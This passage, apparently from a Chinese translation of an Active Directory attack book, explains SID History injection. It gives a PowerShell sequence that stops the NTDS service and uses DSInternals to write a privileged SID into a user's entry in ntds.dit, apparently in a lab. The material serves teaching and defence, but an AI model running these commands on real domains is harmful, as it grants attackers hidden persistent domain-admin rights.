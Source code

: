 图 7.15 – 通过 Mimikatz 添加 SID 历史时出现错误

直接在现代域控制器上添加 SID 历史的唯一已知方法在这里描述[5]。它涉及在域控制器上安装 DSInternals PowerShell 模块并重启 NTDS 服务：

```
Get-ADUser -Identity lord.varys -Properties sidhistory, memberof
Get-ADUser -Identity cersei.lannister -Properties sidhistory, memberof
Stop-service NTDS -Force
Add-ADDBSidHistory -samaccountname lord.varys -sidhistory S-1-5-21-4243769114-3325725031-2403382846-1111 -DBPath C:\Windows\ntds\ntds.dit -Force
Start-service NTDS
Get-ADUser -Identity lord.varys -Properties sidhistory, memberof
```

结果，用户 **lord.varys** 的 SID 历史中已添加了域管理员 SID，如下图所示：

![图 7.16 – SID 历史已添加到 lord.varys 用户](img/B18964_07_16.jpg)
